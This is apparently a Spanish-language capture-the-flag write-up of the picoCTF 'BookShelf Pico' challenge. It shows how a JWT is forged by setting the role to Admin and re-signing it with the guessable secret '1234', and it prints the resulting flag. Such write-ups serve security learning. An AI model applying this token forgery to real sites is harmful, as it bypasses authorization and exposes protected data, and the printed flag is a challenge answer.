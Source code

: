 ## Objetivo
BookShelf Pico, my premium online book-reading service. I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book! Here are the credentials to get you started:

- Username: "user"
- Password: "user"

Source code can be downloaded [here](https://artifacts.picoctf.net/c/483/bookshelf-pico.zip). Website can be accessed [here!](http://saturn.picoctf.net:65037/).
## Solución
Entramos a la pagina e iniciamos sesion con las credenciales que nos dan
Despues no dirigimos al libro que tiene la bandera, al cual no podemos acceder por no somos admin.
Posteriormente inspeccionamos el almacen de la solicitud y copiamos el auth-token:

![[Pasted image 20241019235258.png]]

Decodificamos el token y cambiamos unos valores
```bash

{
  "typ": "JWT",
  "alg": "HS256"
}
PAYLOAD:DATA

{

  "role": "Admin",

  "iss": "bookshelf",

  "exp": 1730007788,

  "iat": 1729402988,

  "userId": 2,

  "email": "admin"

}
VERIFY SIGNATURE

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  1234
)
```
Copiamos el nuevo token y lo reemplazamos por el anterior. De igual forma reemplazamos los valores de token payload.
![[Pasted image 20241019235707.png]]

Refrescamos la pagina y deberíamos poder acceder al libro que contiene la bandera

![[Pasted image 20241020000236.png]]


```
Great job! Here’s your flag:picoCTF{w34k_jwt_n0t_g00d_42f5774a}
```
## Notas Adicionales

## Referencias
https://jwt.io/